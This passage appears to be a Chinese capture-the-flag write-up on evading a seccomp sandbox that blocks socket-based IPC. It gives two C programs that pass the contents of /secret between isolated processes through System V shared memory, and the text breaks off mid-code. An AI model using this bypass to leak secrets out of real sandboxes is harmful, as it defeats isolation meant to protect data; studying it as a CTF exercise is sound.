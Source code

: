 ```c
add_rule(&ctx, SCMP_SYS(socketpair));
add_rule(&ctx, SCMP_SYS(getsockname));
add_rule(&ctx, SCMP_SYS(getpeername));
add_rule(&ctx, SCMP_SYS(getsockopt));
add_rule(&ctx, SCMP_SYS(accept4));
add_rule(&ctx, SCMP_SYS(recvmmsg));
add_rule(&ctx, SCMP_SYS(sendmmsg));
add_rule(&ctx, SCMP_SYS(ptrace));
```

把基于 socket 做 ipc 的 api 都 ban 了，但是除了 socket Linux 还有~~十万种甚至九万种~~很多种 ipc 方法，写了个基于 shm 的解决了。

Alice:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <sys/types.h>

#define KEY_ID 1919810

int main() {
  int shm_id = shmget(KEY_ID, 128, IPC_CREAT | 0666);
  FILE* reader = fopen("/secret", "r");
  char flag[2000];
  fgets(flag, 2000, reader);
  fclose(reader);

  void* shm = shmat(shm_id, NULL, 0);
  memcpy(shm, flag, strlen(flag) + 1);
  shmdt(shm);

  return 0;
}
```

Bob:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <sys/types.h>
#include <unistd.h>

#define KEY_ID 1919810

int main() {
  // sleep 5 seconds to wait read end
  sleep(5);

  for (int i = 0; i < 1000; i++) {
    int shm_id = shmget(KEY_ID, 128, IPC_CREAT | 0666);
    if (shm_id == -1) {
      fprintf(stderr, "get shm_id failed.\n");
      continue;
    }

    void* shm = shmat(shm_id, NULL, 0);
    if (shm == (void*)-1) {
      fprintf(stderr, "get shm failed.\n");
```